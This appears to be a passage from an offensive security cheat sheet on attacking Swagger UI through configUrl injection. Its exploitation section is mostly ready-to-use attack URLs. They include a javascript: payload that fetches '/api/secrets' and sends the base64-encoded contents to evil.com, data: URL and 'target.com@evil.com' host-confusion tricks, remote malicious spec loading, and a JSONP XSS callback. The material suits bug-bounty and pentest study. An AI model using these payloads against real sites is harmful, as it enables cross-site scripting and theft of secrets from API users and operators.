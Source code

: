- **Widespread Adoption**: Used by thousands of companies worldwide
- **High-Value Data**: Direct access to critical API endpoints
- **Complex Codebase**: Complex JavaScript with potential security flaws
- **Access to Credentials**: Often stores or processes authentication tokens
- **Backend Connectivity**: Potential gateway to internal systems

### Architecture at a glance

```
+----------------+     +----------------+     +------------------+
| Browser Client |---->| Swagger UI JS  |---->| API Backend      |
+----------------+     +----------------+     +------------------+
        |                     |                       |
        v                     v                       v
   User Input           Config Loading         Data Processing
   XSS Vectors         SSRF Potential       Auth Vulnerabilities
```

## 💀 VULNERABILITY CLASSES & EXPLOITATION

### 1. 🧨 ConfigUrl Injection: The Master Key

The `configUrl` parameter is the primary attack vector, allowing attackers to control which OpenAPI specification gets loaded.

#### Basic Exploitation:
```
https://target.com/swagger-ui/?configUrl=https://evil.com/malicious.json
```

#### Advanced Techniques:

##### Protocol-Based Attacks:
```
/swagger-ui/?configUrl=javascript:fetch('/api/secrets').then(r=>r.text()).then(t=>location='https://evil.com/c?'+btoa(t))

/swagger-ui/?configUrl=data:application/json,{"url":"https://evil.com/xss.yaml"}
```

##### Schema Smuggling:
```
/swagger-ui/?configUrl=https://target.com@evil.com/payload.json

/swagger-ui/?configUrl=https://evil.com/payload.json?proxy=https://target.com
```

##### JSONP Exploitation:
```
/swagger-ui/?configUrl=https://vulnerable-jsonp.com/api?callback=alert(document.domain)
```

##### Real-world example:
A $6,500 bounty was awarded for a ConfigUrl injection that led to XSS on a major financial institution's API portal.

